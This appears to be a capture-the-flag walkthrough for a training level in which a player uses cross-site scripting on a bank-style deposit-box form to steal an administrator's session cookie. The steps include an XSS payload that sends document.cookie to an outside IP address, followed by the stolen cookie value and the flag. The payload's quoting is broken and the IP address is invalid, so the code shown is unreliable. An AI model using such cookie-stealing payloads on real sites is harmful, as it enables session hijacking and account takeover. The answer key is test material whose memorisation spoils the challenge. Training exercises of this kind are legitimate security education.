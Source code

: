 # 📦 Unsafe Deposit Box - L11 C08

Agent 707, we've been working with the bank to try and make their website more secure, which will hopefully prevent the Bulldogs getting access.

As part of our penetration testing we've found a page which might be vulnerable to XSS. It's the page you use to request further information about safety deposit boxes. You need to be logged in as a standard bank customer to get to that page, but we think you can use XSS to change the access level to admin. Give it a try.

**Tip:** Get admin access to the site to get the flag.

```
💡 Hint: You must find a way to get the administrator's cookie sent to your web server address,
   then create the cookie with the right values and refresh the page for access.
```

## Step by Step

- Enter `<script>document.location='?data='http://126.34.285.59:726%2bdocument.cookie</script>` in the name field of the form and hit submit
- You should get a message at the top telling you that the admin cookie is `32f35nh98gf3hy9085g398g35y98f43h9f3g234f27w624`
- Head to the cookies tab in the developer tools
- Replace the value of the `deposit_user` cookie with the obtained admin cookie and refresh the site
- This will give you the flag

`flag: x3kUszVcPCsT0ai5flui`
